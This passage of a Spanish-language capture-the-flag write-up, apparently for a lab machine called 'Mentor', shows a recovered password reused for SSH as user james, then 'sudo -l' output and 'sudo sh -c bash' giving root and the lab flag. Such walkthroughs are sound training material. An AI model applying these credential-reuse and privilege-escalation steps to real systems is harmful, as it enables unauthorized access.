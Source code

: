Vemos que hay una contraseña...
```bash
createUser bootstrap MD5 SuperSecurePassword123__ DES
```
Cuando miramos la base de datos tambien vimos al usuario **james** provare si se reciclan las credenciales para ssh con este usuario.

```bash
❯ ssh james@10.10.11.193
james@10.10.11.193 password: SuperSecurePassword123__ 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-56-generic x86_64)
james@mentor:~$ whoami
james
james@mentor:~$ 
```
Conseguimos acceso, es la hora de escalada de privilegios para ser root.
```bash
james@mentor:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
james@mentor:~$
```
Aplicamos **sudo -l** y vemos que podemos ejecutar **sh** como cualquier usuario.

Ejecutamos el siguiente comando...:
```bash
james@mentor:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
james@mentor:~$ 
```

```bash
james@mentor:~$ sudo sh -c bash
root@mentor:/home/james# whoami
root
root@mentor:/home/james# cat /root/root.txt 
8cd58**********************18933
```
Y ya estamos como root y podemos visualizar la **Flag** de maximo privilegio.

# Espero que te pueda servir de ayuda. *GRACIAS por venir*
